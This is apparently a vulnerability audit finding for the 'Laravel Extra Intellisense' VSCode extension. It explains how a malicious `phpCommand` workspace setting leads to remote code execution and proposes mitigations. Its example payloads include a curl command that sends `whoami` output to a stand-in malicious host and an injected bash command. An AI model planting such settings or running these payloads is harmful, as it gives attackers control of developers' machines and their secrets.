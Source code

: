 ## Combined Vulnerability List

### Remote Code Execution via Maliciously Configured `phpCommand`

- **Vulnerability Name:** Remote Code Execution via Maliciously Configured `phpCommand`

- **Description:**
    1. The "Laravel Extra Intellisense" extension allows users to configure the `phpCommand` setting, which specifies the command used to execute PHP code. This setting is intended for customizing the PHP executable path, but it can be maliciously exploited.
    2. An attacker can craft a workspace configuration (e.g., `.vscode/settings.json`) or directly modify user settings to inject malicious commands into the `LaravelExtraIntellisense.phpCommand` setting.
    3. Instead of a safe PHP command like `php -r "{code}"`, the attacker can inject a command that executes arbitrary system commands. Examples include:
        - `php -r "system('curl http://malicious-site.com/$(whoami)')"` (exfiltration and RCE)
        - `php -r "{code}\"; bash -c 'touch /tmp/pwned'"` (command injection)
        - In scenarios where developers use Docker, and expose PHP interpreters, misconfiguration like  `docker exec -w /var/www/your-project -u laradock laradock_workspace_1 php -r "{code}"` can be exploited if an attacker can inject code into the Laravel project.
    4. When a developer opens a workspace with this malicious configuration in VSCode and uses the "Laravel Extra Intellisense" extension, or if the extension runs background tasks, it will use the configured `phpCommand`.
    5. The extension uses `child_process.exec` to execute commands, directly using the user-provided `phpCommand` template and substituting `{code}` with PHP code required for extension features (like autocompletion data).
    6. Due to insufficient sanitization, the injected malicious commands are executed by the system shell.
    7. This allows the attacker to achieve Remote Code Execution on the developer's machine, with the privileges of the user running VSCode. In Docker scenarios with misconfigured `phpCommand`, it might even lead to RCE within the Docker container, or potentially even escape depending on the Docker setup and injected commands.

- **Impact:**
    - Critical. Successful exploitation allows the attacker to execute arbitrary code on the developer's machine or potentially within a development container. This can lead to:
        - Full control over the developer's machine and development environment.
        - Data exfiltration, including sensitive source code, environment variables, and credentials.
        - Installation of malware, backdoors, or ransomware.
        - Further attacks on internal networks accessible from the developer's machine.
        - In Dockerized environments, potential container compromise or escape.

- **Vulnerability Rank:** Critical

- **Currently Implemented Mitigations:**
    - Security Note in README.md: The `README.md` file includes a "Security Note" that warns users about the extension running their Laravel application and suggests disabling the extension if sensitive code is present in service providers. It also implicitly warns about potential risks when using Docker. This is a documentation-based mitigation, relying on user awareness.

- **Missing Mitigations:**
    - Input Validation: The extension lacks input validation for the `phpCommand` configuration setting. It should validate that the command is safe and does not contain potentially harmful commands or shell injections. The validation could include:
        - Verifying the command starts with "php" or a known safe path.
        - Preventing shell metacharacters and command separators.
        - Whitelisting allowed arguments or options.
    - Secure Command Execution:  Instead of using `cp.exec`, which interprets the command as a shell command, the extension should use a safer method like `child_process.spawn` with proper argument escaping to prevent shell injection.
    - User Warning: When the extension detects a custom `phpCommand` configuration, especially if it deviates from the default or contains suspicious patterns, it should display a prominent warning to the user, highlighting the security risks and advising caution.